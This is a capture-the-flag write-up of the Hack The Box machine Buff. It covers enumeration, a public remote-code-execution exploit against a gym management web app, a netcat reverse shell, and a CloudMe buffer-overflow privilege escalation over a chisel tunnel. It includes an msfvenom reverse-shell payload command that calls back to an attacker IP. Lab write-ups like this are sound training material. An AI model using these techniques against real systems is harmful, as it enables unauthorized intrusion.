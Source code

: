 ```yaml
---
description: >-
 Dec1pher's writeup on the easy-difficulty Windows machine Buff from https://hackthebox.eu
---
```



# HTB - Buff
* OS: Windows
* IP: 10.10.10.198
	
 ![](../../att/buff.PNG)
	
## Overview
Buff is an easy windows machine that runs a gym managment web interface tha't outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found oython exploit we get administration rights on the box.

## Usefull Tools
1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration
### Nmap
As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important infrmation are `-Pn` to skip the ping test,  `-sS` foTCP SYN scan, `-sC` for teting default scripts,  `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use  the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery (HTTP 8080)
The website is a gym managment app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../att/buff-site.png)

That version of the app has a know vulnerabilty that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

### Exploiting Gym managment
By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive (we can't change directories) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box (since the nc.exe doesn't get deleted or blocked we can assume thatthe box doesn't have an antivirus or some kind of malware detection).
1. Uploading `nc.exe`
![](../../att/buff-nc.png)
2. Executing nc and getting a responsive reverse shell
![](../../att/buff-rce.png)

=> We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Priviledge escalation
After some manual enumeration on the use we can see an app that stickout `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability. 
> buffer overflow script found here => [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel to use the script
Since python is not isntalled in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

=> To create the payload
`sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finaly forward the payload to the port that the app is running.

=> Locally open chisel in server mode
![](../../att/buff-client-chisel.png)

=> Remotely execute chisel in client mode
![](../../att/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../att/buff-root.png)

At these point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`


